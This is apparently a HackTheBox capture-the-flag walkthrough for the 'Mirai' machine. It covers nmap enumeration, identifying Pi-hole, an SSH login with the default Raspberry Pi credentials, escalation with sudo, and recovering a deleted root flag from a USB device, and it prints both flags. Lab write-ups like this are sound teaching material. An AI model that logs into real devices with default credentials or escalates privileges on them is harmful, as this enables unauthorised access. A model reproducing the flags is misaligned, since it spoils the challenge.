 # HackTheBox Walkthrough - Mirai

**Machine Name**: Mirai  
**Target IP**: 10.129.95.255  
**Operating System**: Linux  
**Difficulty**: Easy  

---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Mirai 10.129.95.255
```
![nmap](img/nmap.png)

**Ports Identified:**
```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3
53/tcp    open  domain  dnsmasq 2.76
80/tcp    open  http    lighttpd 1.4.35
1091/tcp  open  upnp    Platinum UPnP 1.0.5.13
32400/tcp open  http    Plex Media Server httpd
32469/tcp open  upnp    Platinum UPnP 1.0.5.13
```

---

## 🌐 Web Enumeration

### Port 80 - HTTP

Header reveals unusual entry:
![burpsuite](img/burpsuite.png)

```
X-Pi-hole: The Pi-hole Web interface is working!
```
![search](img/search.png)

Default dashboard:
```
/admin
```

Identified service: **Pi-hole**

---

## 🔐 Credential Discovery

### Raspberry Pi Default Credentials
![default_credential](img/default_credential.png)

- **Username**: `pi`
- **Password**: `raspberry`

### SSH Access

```bash
ssh pi@10.129.95.255
# Password: raspberry
```
![ssh](img/ssh.png)

---

## 📥 User Flag

```bash
cat /home/pi/Desktop/user.txt
```
![userflag](img/userflag.png)

**Flag:** `ff837707441b257a20e32199d7c8838d`

---

## 🚀 Privilege Escalation

`pi` is in the `sudo` group:

```bash
sudo su
```
![root](img/root.png)

### Root Flag

```bash
cat /root/root.txt
# I lost my original root.txt! I think I may have a backup on my USB stick...
```
![roottxt](img/roottxt.png)

Inspect mounted devices:

```bash
lsblk
# sdb is mounted at /media/usbstick
```
![lsblk](img/lsblk.png)

```bash
cat /media/usbstick/damnit.txt
```

Nothing useful, recover deleted content:

```bash
sudo strings /dev/sdb | grep -i root.txt
```

Recovered root flag:
![rootflag](img/rootflag.png)

**Flag:** `3d3e483143ff12ec505d026fa13e020b`

---

## ✅ Summary

| Item        | Value                                      |
|-------------|--------------------------------------------|
| User        | pi                                         |
| User Flag   | `ff837707441b257a20e32199d7c8838d`         |
| Root Flag   | `3d3e483143ff12ec505d026fa13e020b`         |
| Priv Esc    | sudo + recovery from `/dev/sdb`           |
